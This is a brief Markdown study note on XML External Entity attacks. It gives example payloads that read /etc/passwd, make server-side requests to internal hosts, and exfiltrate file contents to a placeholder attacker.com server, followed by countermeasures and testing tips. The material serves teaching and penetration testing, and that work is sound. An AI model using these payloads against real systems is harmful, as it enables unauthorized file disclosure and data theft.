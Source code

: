 # XML eXternal Entities Vulnerability

XXE is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. (Can be used to to disclose various configuration file information, which the attackers then use to exploit the system further)

### What are XML External Entities
- External entity profiles are defined by outside sources such as a file on a local computer or a web URL. Such entities are used to ensure that the XML processor behaves consistently even when unexpected characters are parsed.

## XXE Attack 
- XXE vulnerabilities as uploading an XML file that includes an external entity.
```xml
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```


## Types of XXE Attacks: 

- XXE for File Retrieval
	- Defining a new Entity called ```xxe```. This entity is made to execute a system call.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<product>&xxe;</product>
<adress>&xxe;</adress>
```
- XXE for Server-Side Request Forgery 
	- System call to an HTTP endpoint of an internal webserver of which we should not see the contents from outside.
```xml 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internals.target.com"> ]>
```
- Data out-of-band exfiltration (Blind XXE)
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://Attacker.com"> ]>
```
	- Make a callback to our server.
```xml
<!DOCTYPE foo [
	<!ENTITY % file SYSTEM "file:///etc/passwd">
	<!ENTITY % evil "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">]>
%evil;
%exfiltrate;
```



***


## Countermeasures:

- Use simple data formats. (JSON as example)
- Use updated XML processes and libraries.
- Disable Document Type Definition and XXE in all XML Parsers.
- Usage of Whitelisting for Server-Side Input Validation.

***

## Takeaways: 

- It'simportant to insert your XXE entity into every single XML element. Any of them can be vulnerable as the developer has to filter ALL the fields indivually.
- Trying to upload a file that will test for XXE on every entry point where an XML
is processed
- Look into for SVG/DOC/XLSX & SOAP requests.

